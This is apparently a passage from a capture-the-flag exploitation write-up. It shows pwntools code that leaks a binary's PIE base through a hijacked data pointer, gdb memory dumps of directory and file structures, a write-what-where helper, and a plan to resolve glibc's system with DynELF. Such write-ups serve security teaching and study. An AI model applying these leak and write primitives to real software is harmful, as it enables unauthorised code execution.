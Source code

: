 First step after gaining control over the `data` pointer is to leak the binary's base address. Knowing that `c01db33f` has `/home` (located at `.bss`) as its parent directory field,  we can use the `leak` function to leak `c01db33f`'s `parent_directory` field and find its corresponding PIE address.

```python
# The very first entry is stored in the bss while the
# and its childs on the heap
home_entry_addr = u64(leak(root_entry, 8))
pie_base = home_entry_addr - 0x208be0
```

```
                     |parent|            |name| | |type|
0x4994b8ac:	0x00000000c01db33f	0x0000006200000002 _ _ _ _ _ _
0x4994b8bc:	0x0000000000000000	0x0000000000000000             \
                      |size|                  |data|                      (struct file_entry)victim
0x4994b8cc:	0x0000000000000008	0x0000000054785b4c _ _ _ _ _ _ /
       _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ |
     /
     |          |parent_directory|       |name| | |type|
0x54785b4c:	0x000055f597a98be0	0x6431306300000001 _ _ _ _ _ _ 
0x54785b5c:	0x0000000066333362	0x0000000000000000             \
                   |child_count|         |entry* child[]|                 (struct directory_entry)c01db33f
0x54785b6c:	0x0000000000000080	0x000000005f1a20d4 _ _ _ _ _ _ /
```

```
gdb-peda$ x/s 0x0000000054785b4c+0xc
0x54785b58:	"c01db33f"

gdb-peda$ x/s 0x000055f597a98be0+0xc
0x55f597a98bec:	"home"
```

```
                |parent_directory|       |name| | |type|
0x55f597a98be0:	0x0000000000000000	0x656d6f6800000000 _ _ _ _ _ _
0x55f597a98bf0:	0x0000000000000000	0x0000000000000000             \ 
                   |child_count|         |entry* child[]|                 (struct directory_entry)home
0x55f597a98c00:	0x0000000000000001	0x0000000054785b4c _ _ _ _ _ _ /
```

Using the `put` command with `victim` as its argument, we can write `size` bytes at the location where `victim`'s data pointer points to.

```python
def write(what, where):
    craft_file_entry(len(what), where)
    put('victim', len(what), what)
```

We use the `leak` function to resolve remote symbols of `glibc` without the knowledge of its version. This functionality has already been implemented in [pwntools](https://github.com/Gallopsled/pwntools) library with the [DynELF](http://docs.pwntools.com/en/stable/dynelf.html) module. The `DynELF` module, having knowledge of how the dynamic linker looks up symbols in the internal hash tables of the binary, can calculate the [bucket](https://blogs.oracle.com/solaris/gnu-hash-elf-sections-v2) in which there will be information about the address of a symbol (in our case `system`).
